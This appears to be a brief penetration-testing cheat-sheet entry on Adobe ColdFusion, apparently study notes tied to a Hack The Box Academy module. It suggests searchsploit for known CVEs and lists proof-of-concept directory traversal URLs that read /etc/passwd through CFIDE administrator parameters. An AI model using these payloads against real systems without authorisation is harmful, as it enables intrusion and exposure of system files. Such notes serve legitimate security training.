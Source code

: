 ## Coldfusion

- Check for CVEs

```bash
$ searchsploit adobe coldfusion
# POC potential Directory Traversal
http://$TARGET/index.cfm?directory=../../../etc/&file=passwd
http://$TARGET/CFIDE/administrator/settings/mappings.cfm?locale=../../../../../etc/passwd
http://$TARGET/CFIDE/administrator/settings/mappings.cfm?locale=en
```

More here : https://academy.hackthebox.com/module/113/section/2135